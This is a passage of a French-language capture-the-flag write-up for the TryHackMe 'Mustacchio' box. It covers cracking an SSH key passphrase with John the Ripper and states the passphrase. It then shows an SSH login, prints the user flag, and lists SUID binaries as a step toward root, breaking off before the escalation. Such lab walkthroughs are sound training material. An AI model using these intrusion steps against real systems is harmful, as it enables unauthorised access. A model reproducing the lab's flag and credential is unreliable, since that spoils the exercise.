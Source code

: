 On casse le mot de passe de la clef ssh avec john the ripper.   
On trouve un mot de passe : urieljames.   

**What is the user flag?**

```
tim@kali:~/Bureau/tryhackme$ ssh -i id_key barry@mustacchio.thm 
The authenticity of host 'mustacchio.thm (10.10.43.65)' can't be established.
ECDSA key fingerprint is SHA256:ZZet5QyZ8Pn5+08sVBFZdDzP/6yZEQeNpRZEd5DLLks.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'mustacchio.thm,10.10.43.65' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_key': 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

34 packages can be updated.
16 of these updates are security updates.
To see these additional updates run: apt list --upgradable



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

barry@mustacchio:~$ cat user.txt 
62d77a4d5f97d47c5aa38b3b2651b831
```

**What is the root flag?**

```bash
barry@mustacchio:~$ find / -type f -perm /4000 2>/dev/null
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/at
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/newuidmap
/usr/bin/gpasswd
/home/joe/live_log
/bin/ping
/bin/ping6
/bin/umount
/bin/mount
/bin/fusermount
/bin/su
```
